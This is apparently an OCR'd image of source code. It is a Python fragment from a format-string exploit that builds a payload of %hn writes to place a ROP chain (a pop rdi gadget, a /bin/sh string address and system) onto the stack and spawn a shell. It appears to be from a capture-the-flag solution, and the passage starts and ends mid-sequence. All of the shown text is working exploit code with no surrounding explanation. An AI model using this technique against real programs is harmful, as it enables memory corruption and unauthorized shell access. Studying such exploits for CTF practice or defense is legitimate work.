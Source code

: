 ```
    fmt_str += (16 - len(tmp)) * b'A'

    tmp = f'%{str((POP_RDI>>(8*2))&0xffff)}x%37$hn'.encode()
    fmt_str += tmp
    tmp_len = (16 - len(tmp))
    fmt_str += tmp_len * b'A'

    written_so_far = (POP_RDI>>(8*2))&0xffff
    tmp_len += (16 - len(str(0x10000-written_so_far))) - 2
    tmp = f'%{str(0x10000-written_so_far-tmp_len)}x'.encode()
    fmt_str += tmp
    fmt_str += (16 - len(tmp)) * b'A'

    tmp = f'%{str((BINSH)&0xffff)}x%40$hn'.encode()
    fmt_str += tmp
    tmp_len = (16 - len(tmp))
    fmt_str += tmp_len * b'A'

    written_so_far = (BINSH)&0xffff
    tmp_len += (16 - len(str(0x10000-written_so_far))) - 2
    tmp = f'%{str(0x10000-written_so_far-tmp_len)}x'.encode()
    fmt_str += tmp
    fmt_str += (16 - len(tmp)) * b'A'

    tmp = f'%{str((BINSH>>16)&0xffff)}x%41$hn'.encode()
    fmt_str += tmp
    tmp_len = (16 - len(tmp))
    fmt_str += tmp_len * b'A'

    written_so_far = (BINSH>>16)&0xffff
    tmp_len += (16 - len(str(0x10000-written_so_far))) - 2
    tmp = f'%{str(0x10000-written_so_far-tmp_len)}x'.encode()
    fmt_str += tmp
    fmt_str += (16 - len(tmp)) * b'A'

    tmp = f'%{str((BINSH>>32)&0xffff)}x%42$hn'.encode()
    fmt_str += tmp
    tmp_len = (16 - len(tmp))
    fmt_str += tmp_len * b'A'

    written_so_far = (BINSH>>32)&0xffff
    tmp_len += (16 - len(str(0x10000-written_so_far))) - 2
    tmp = f'%{str(0x10000-written_so_far-tmp_len)}x'.encode()
    fmt_str += tmp
    fmt_str += (16 - len(tmp)) * b'A'

    tmp = f'%{str((SYSTEM)&0xffff)}x%44$hn'.encode()
    fmt_str += tmp
    tmp_len = (16 - len(tmp))
    fmt_str += tmp_len * b'A'

    written_so_far = (SYSTEM)&0xffff
    tmp_len += (16 - len(str(0x10000-written_so_far))) - 2
    tmp = f'%{str(0x10000-written_so_far-tmp_len)}x'.encode()
    fmt_str += tmp
    fmt_str += (16 - len(tmp)) * b'A'

    tmp = f'%{str((SYSTEM>>16)&0xffff)}x%45$hn'.encode()
    fmt_str += tmp
    tmp_len = (16 - len(tmp))
    fmt_str += tmp_len * b'A'

    written_so_far = (SYSTEM>>16)&0xffff
```